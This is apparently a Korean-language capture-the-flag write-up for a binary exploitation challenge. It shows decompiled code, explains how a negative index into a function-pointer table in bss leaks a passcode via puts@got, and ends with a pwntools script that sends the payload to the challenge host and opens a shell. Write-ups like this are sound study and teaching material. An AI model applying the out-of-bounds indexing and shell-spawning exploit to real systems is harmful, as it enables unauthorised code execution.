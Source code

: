 ```
}
```

```
.data:0000000000404010 conv            dq offset easy 
.data:0000000000404018                 dq offset hard
```

v4가 1이면 `easy(v3)`가 실행되고, v4가 2면 `hard(v3)`가 실행된다. 익스에서 `easy`는 중요하지 않다.

```
unsigned __int64 __fastcall hard(__int64 a1)
{
  int i; // [rsp+14h] [rbp-2Ch]
  char path[8]; // [rsp+2Fh] [rbp-11h] BYREF
  char v4; // [rsp+37h] [rbp-9h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  strcpy(path, "<qz}<`{");
  v4 = 0;
  for ( i = 0; i <= 6; ++i )
    path[i] ^= 0x13u;
  if ( a1 == passcode )
  {
    puts("[+] WINNNN!");
    execve(path, 0LL, 0LL);
  }
  else
  {
    puts("[-] YOU ARE NOT WORTHY FOR A SHELL!");
  }
  change_passcode();
  return v5 - __readfsqword(0x28u);
}
```

``<qz}<`{`` 에서 XOR하는 것은 `/bin/sh` 문자열을 주지 않기 위해서로 보인다. `passcode`를 알 수 있으면 쉘을 딸 수 있다.

## 익스플로잇 설계

`main`의 v4가 long long int 형이므로 음수 입력이 가능하다. conv가 bss에 있으므로 음수 입력으로 `puts@got`에 도달할 수 있다. `passcode`도 bss에 있으므로 주소를 알 수 있다. v3에 `passcode` 주소를 입력하면 `passcode`를 알 수 있다. `hard`를 실행시켜 쉘을 땄다.

## dec.py

```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./chall')
HOST = "2bed32f51bfbd4cf0f5b786d12cbf9b6.chal.ctf.ae"
p = remote(HOST, 443, ssl=True, sni=HOST)
e = ELF('./chall')

p.sendafter(b'> ', b'a')
p.sendafter(b'> ', str(((e.got['puts'] - e.sym['conv']) // 8) + 1).encode())
p.sendafter(b'> ', str(e.sym['passcode']).encode())
passcode = u64(p.recvn(8))
print(passcode)
#gdb.attach(p)
p.sendafter(b'> ', b'2')
p.sendafter(b'> ', str(passcode).encode())
p.interactive()
```